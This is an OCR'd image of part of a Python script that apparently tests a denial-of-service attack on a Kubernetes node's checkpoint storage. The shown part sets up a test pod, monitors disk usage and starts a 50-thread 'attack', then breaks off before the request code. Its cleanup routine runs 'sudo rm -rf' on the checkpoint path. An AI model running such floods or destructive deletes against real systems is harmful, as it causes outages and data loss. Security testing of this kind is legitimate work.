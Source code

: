 ```
      except Exception as e:                                                                                                                                                      
          print(f"Request failed: {str(e)}")                                                                                                                                      
                                                                                                                                                                                  
  def monitor_disk_usage():                                                                                                                                                       
      try:                                                                                                                                                                        
          usage = shutil.disk_usage(CHECKPOINT_PATH)                                                                                                                              
          print(f"Current disk usage: {usage.used/(1024*1024):.2f} MB")                                                                                                           
      except Exception as e:                                                                                                                                                      
          print(f"Disk monitoring failed: {str(e)}")                                                                                                                              
                                                                                                                                                                                  
  def cleanup():                                                                                                                                                                  
      subprocess.run(["kubectl", "delete", "pod", POD_NAME], check=True)                                                                                                          
      subprocess.run(["rm", "-f", "test-pod.yaml"], check=True)                                                                                                                   
      subprocess.run(["sudo", "rm", "-rf", f"{CHECKPOINT_PATH}/*"], check=True)                                                                                                   
      print("Cleanup completed")                                                                                                                                                  
                                                                                                                                                                                  
  def main():                                                                                                                                                                     
      try:                                                                                                                                                                        
          # 初始化环境                                                                                                                                                            
          cleanup()                                                                                                                                                               
      except:                                                                                                                                                                     
          pass                                                                                                                                                                    
                                                                                                                                                                                  
      try:                                                                                                                                                                        
          # 创建测试Pod                                                                                                                                                           
          create_test_pod()                                                                                                                                                       
          wait_for_pod_ready()                                                                                                                                                    
                                                                                                                                                                                  
          # 执行DoS攻击                                                                                                                                                           
          start_time = time.time()                                                                                                                                                
          print("Starting attack...")                                                                                                                                             
                                                                                                                                                                                  
          with ThreadPoolExecutor(max_workers=50) as executor:                                                                                                                    
```